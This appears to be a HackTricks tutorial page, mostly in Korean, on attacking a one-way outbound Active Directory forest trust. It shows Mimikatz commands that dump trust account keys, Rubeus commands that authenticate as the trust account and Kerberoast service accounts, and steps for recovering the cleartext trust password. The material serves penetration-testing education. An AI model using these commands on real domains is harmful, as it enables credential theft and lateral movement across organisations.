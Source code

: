 # External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

이 시나리오에서 **당신의 도메인**은 **다른 도메인**의 주체에게 **특권**을 **신뢰하고** 있습니다.

## Enumeration

### Outbound Trust
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

두 도메인 간에 신뢰 관계가 설정될 때 보안 취약점이 존재합니다. 여기서 도메인 **A**와 도메인 **B**로 식별되며, 도메인 **B**가 도메인 **A**에 신뢰를 확장합니다. 이 설정에서는 도메인 **B**를 위해 도메인 **A**에 특별한 계정이 생성되며, 이 계정은 두 도메인 간의 인증 과정에서 중요한 역할을 합니다. 도메인 **B**와 연결된 이 계정은 도메인 간 서비스에 접근하기 위한 티켓을 암호화하는 데 사용됩니다.

여기서 이해해야 할 중요한 점은 이 특별한 계정의 비밀번호와 해시를 도메인 **A**의 도메인 컨트롤러에서 명령줄 도구를 사용하여 추출할 수 있다는 것입니다. 이 작업을 수행하는 명령은:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
이 추출은 이름 뒤에 **$**가 붙은 계정이 활성화되어 있고 도메인 **A**의 "Domain Users" 그룹에 속해 있어 이 그룹과 관련된 권한을 상속받기 때문에 가능합니다. 이를 통해 개인은 이 계정의 자격 증명을 사용하여 도메인 **A**에 인증할 수 있습니다.

**경고:** 이 상황을 이용하여 사용자로서 도메인 **A**에 발판을 마련하는 것이 가능하지만, 권한은 제한적입니다. 그러나 이 접근은 도메인 **A**에서 열거 작업을 수행하기에 충분합니다.

`ext.local`이 신뢰하는 도메인이고 `root.local`이 신뢰받는 도메인인 시나리오에서, `root.local` 내에 `EXT$`라는 사용자 계정이 생성됩니다. 특정 도구를 통해 Kerberos 신뢰 키를 덤프하여 `root.local`의 `EXT$` 자격 증명을 드러낼 수 있습니다. 이를 달성하기 위한 명령은:
```bash
lsadump::trust /patch
```
다음으로, 추출된 RC4 키를 사용하여 다른 도구 명령을 사용하여 `root.local` 내에서 `root.local\EXT$`로 인증할 수 있습니다:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
이 인증 단계는 `root.local` 내에서 서비스를 열거하고 심지어 악용할 수 있는 가능성을 열어줍니다. 예를 들어 Kerberoast 공격을 수행하여 서비스 계정 자격 증명을 추출할 수 있습니다:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### 명확한 신뢰 비밀번호 수집

이전 흐름에서는 **명확한 텍스트 비밀번호** 대신 신뢰 해시가 사용되었습니다 (이것은 또한 **mimikatz에 의해 덤프되었습니다**).

명확한 비밀번호는 mimikatz의 \[ CLEAR ] 출력을 16진수로 변환하고 널 바이트 ‘\x00’을 제거하여 얻을 수 있습니다:

![](<../../.gitbook/assets/image (938).png>)

신뢰 관계를 생성할 때 사용자가 신뢰를 위해 비밀번호를 입력해야 하는 경우가 있습니다. 이 시연에서 키는 원래의 신뢰 비밀번호이며 따라서 사람이 읽을 수 있습니다. 키가 주기적으로 변경되면 (30일), 명확한 텍스트는 사람이 읽을 수 없지만 기술적으로 여전히 사용 가능합니다.

명확한 비밀번호는 신뢰 계정으로 정기 인증을 수행하는 데 사용될 수 있으며, 이는 신뢰 계정의 Kerberos 비밀 키를 사용하여 TGT를 요청하는 대안입니다. 여기서 ext.local에서 Domain Admins의 구성원을 위해 root.local을 쿼리합니다:

![](<../../.gitbook/assets/image (792).png>)

## 참고문헌

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
